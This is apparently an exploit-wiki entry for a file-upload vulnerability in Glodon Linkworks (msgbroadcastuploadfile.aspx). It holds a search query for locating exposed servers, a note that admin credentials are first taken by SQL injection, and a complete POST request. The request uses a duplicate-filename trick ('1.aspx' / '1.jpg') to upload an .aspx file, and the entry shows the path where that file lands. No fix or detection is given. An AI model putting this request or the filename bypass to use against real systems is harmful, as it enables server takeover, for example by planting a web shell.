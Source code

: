 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

web.body="/Services/Identification/"

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88-20230812091116146.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![img](/assets/PeiQi-Wiki/img/1691801728377-50f7e7cb-080f-47fa-9e3d-ad9666fc99c8.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```php
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![img](/assets/PeiQi-Wiki/img/1691733300613-63fefc8c-2e2d-478e-97b8-01ce3f9daf56.png)

```php
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![img](/assets/PeiQi-Wiki/img/1691802188135-636da27c-837c-432a-88bc-2e215572b2af.png)